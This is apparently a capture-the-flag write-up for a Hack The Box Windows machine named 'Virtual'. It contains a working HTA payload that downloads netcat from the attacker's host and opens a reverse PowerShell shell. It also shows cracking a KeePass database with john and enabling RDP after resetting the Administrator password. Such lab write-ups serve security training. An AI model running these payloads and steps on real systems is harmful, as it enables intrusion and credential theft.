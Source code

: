 ## Virtual

### User flag

```bash
$ nmap -sS -sV -Pn -n -p- -T5 10.129.1.26

Nmap scan report for 10.129.1.26
Host is up (0.023s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE       VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) PHP/8.0.8)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

For this challenge, we were given a web application listening on the port 8080, hosted on Windows, that provided a contact form with the indication "`We usually respond to queries after a few minutes`":
![Virtual web](../img/virtual_1.png)

We noticed we could send arbitrary links that ended being browsed by Internet Explorer. For example, by submitting the form with the message `http:///10.10.14.65:8080/aa`, we received the following request:
```bash
$ nc -nlvp 8080

GET /aa HTTP/1.1
Accept: /
Accept-Language: en-US
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 10.10.14.65:8080
Connection: Keep-Alive
```

After playing a bit with JavaScript, we tried to provide an HTML Application (HTA) to Internet explorer, and we were surprised it worked.

We then submitted another HTML Application that downloaded and executed a pre-built *netcat* binary in order to spawn a reverse shell on the box:

```bash
$ cat index.hta

<html>
<head>
<script language="VBScript">
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "powershell curl http://10.10.14.65:8080/nc.exe -o C:/Windows/Temp/nc.exe; C:/Windows/Temp/nc.exe 10.10.14.65 9999 -e powershell.exe"
    End Sub
RunProgram()
</script>
</head>
<body>
    Nothing to see here..
</body>
</html>

$ python3 -m http.server 8080

POST / HTTP/1.1
Host: 10.129.1.26
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

name=b&email=aa%40aa.com&subject=a&message=http%3A%2F%2F10.10.14.65%3A8080%2Findex.hta
```

Once the application was ran by Internet Explorer, we received a reverse shell. 

We noticed we were already local Administrator. However, there was only a user flag on the file system:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.1.26] 49632
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Apache24\htdocs>> whoami /all
whoami /all

USER INFORMATION
----------------
User Name             SID                                         
===================== ============================================
virtual\administrator S-1-5-21-1926016034-1676465966-846418798-500

GROUP INFORMATION
-----------------
Group Name                                                    Type             SID                                           Attributes                                                     
============================================================= ================ ============================================= ===============================================================
Everyone                                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114                                     Mandatory group, Enabled by default, Enabled group             
VIRTUAL\docker-users                                          Alias            S-1-5-21-1926016034-1676465966-846418798-1000 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
[...]

PS C:\Users\dev\Desktop> type user.txt
type user.txt
HTB{9077a_l0ve_H7a}
```

When searching for the root flag, we noticed multiple interesting files and directories:

* C:\Users\dev\Documents\Database.kdbx
* C:\Users\Administrator\.docker
* C:\Users\Administrator\.minikube
* C:\Users\Administrator\.VirtualBox

The KeePass database was protected by a password so we cracked it using john:

```bash
$ keepass2john Database.kdbx > hashes.lst

$ john --wordlist="SecLists/Passwords/Leaked-Databases/rockyou-75.txt" hashes.lst 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
purple           (Database)
1g 0:00:00:00 DONE (2021-07-27 03:16) 5.555g/s 200.0p/s 200.0c/s 200.0C/s sunshine..justin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The database contains a custom entry named `Docker Server`:

```bash
$ keepassxc-cli export Database.kdbx  -f csv
Enter password to unlock Database.kdbx: purple

"Group","Title","Username","Password","URL","Notes"
"Database","Sample Entry","User Name","Password","https://keepass.info/","Notes"
"Database","Sample Entry #2","Michael321","12345","https://keepass.info/help/kb/testform.html",""
"Database/Network","Docker Server","dev","VeryStrongPassword1!","",""
```

We listed the VirtualBox machines belonging to the Administrator user:

```bash
PS C:\Program Files\Oracle\VirtualBox> ./VBoxManage list vms
"Docker" {11bdf380-f3ae-422e-92f7-6f0f816743d1}
```

As we noticed a Docker VM running on VirtualBox, we decided to set up an RDP in order to easily interact with the VM. To do so, we enabled RDP and we changed the local Administrator password:

```bash
PS> net user Administrator Test1234
net user Administrator Test1234
The command completed successfully.

PS> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Finally, we logged in using the RDP access, and we authenticated as `dev` on the Docker VM's console with the password `VeryStrongPassword1!` that was stored on the KeePass:

```bash
$ xfreerdp /u:Administrator /p:'Test1234' /v:10.129.1.26
[03:31:09:044] [9943:9944] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
```
 
![Docker VM graphical console](../img/virtual_2.png)

The `dev` user was on the sudoers so it was allowed to escalate its privileges to `root` inside the VM and to read the root flag:

![Docker VM graphical console logged in](../img/virtual_3.png) 

From the screen, we read `HTB{v80X_G0t_m4n4g3d}`.
